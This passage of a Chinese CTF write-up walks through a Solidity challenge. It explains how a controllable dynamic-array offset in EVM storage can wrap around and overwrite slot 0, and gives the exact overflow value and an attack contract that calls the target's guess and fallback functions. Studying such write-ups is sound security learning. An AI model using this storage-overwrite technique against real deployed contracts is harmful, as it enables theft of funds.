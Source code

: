 而token就是第一个全局变量，则**storage[0]就存了token变量**。

然后回到我们前面的需求，我们怎么才有可能覆盖storage的第一块数据呢，让我们再回到代码。guess中有这么一段代码。

```
map[uint256(msg.sender)+x] = blockNum;
```

在EVM中数组和其他类型不同，因为数组时动态大小的，所以数组类型的数据计算方式为
```
address(map_data) = sha(array_slot)+offset
```
其中array_slot就是map变量数据的位置，也就是1，offset就是数组中的偏移，比如map[2]，offset就是2.

这样一来，map[2]的地址就是`sha(1)+2`，假设map[2]=2333，则`storage[sha(1)+2]=2333`。

这样一来就出现问题了，由于offset我们可控，我们就可以向storage的任意地址写值。

再加上storage不是无限大的，它最多只有2**256那么大，sha(1)是固定的0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6。

也就是说我们设置x为`2**256-0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6`，storage就会溢出，并覆盖token变量。

所以思路就比较清楚了，构造攻击合约，然后定义balanceOf返回0，调用fallback函数，然后返回即可。

利用合约大致如下
```
pragma solidity ^0.4.21;

contract dvp_attack {
    address public targetaddr;
    
    constructor(address addr) payable{
        targetaddr = addr;
    }
    
    function balanceOf(address addr) public returns(uint i){
        i = 0;
    }
    
    function attack(uint256 x,uint256 blockNum){
        // modity owner
        targetaddr.call(bytes4(keccak256("guess(uint256,uint256)",x,blockNum)));
        // fallback
        targetaddr.call(bytes4(keccak256("a")));
    }
}
```

# 在题目之后

在题目之后，我们不难发现，整个漏洞的成因与未初始化storage指针非常像，要明白这个漏洞，首先我们需要明白在EVM中对变长变量的定义和储存方式。

## array
```
uint256[] map;
```


  [1]: http://static.zybuluo.com/LoRexxar/7dvoippf9k5s0o23rh7kv4ur/image.png